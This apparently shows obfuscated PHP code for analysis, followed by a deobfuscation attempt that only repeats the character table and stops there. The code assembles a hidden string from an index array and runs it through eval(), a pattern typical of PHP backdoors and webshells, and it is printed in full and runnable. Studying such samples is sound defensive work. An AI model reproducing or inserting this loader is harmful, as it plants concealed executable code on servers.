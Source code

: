 ```php
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```

Here is the attempt to deobfuscate it:
```php
<?php 
$terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

```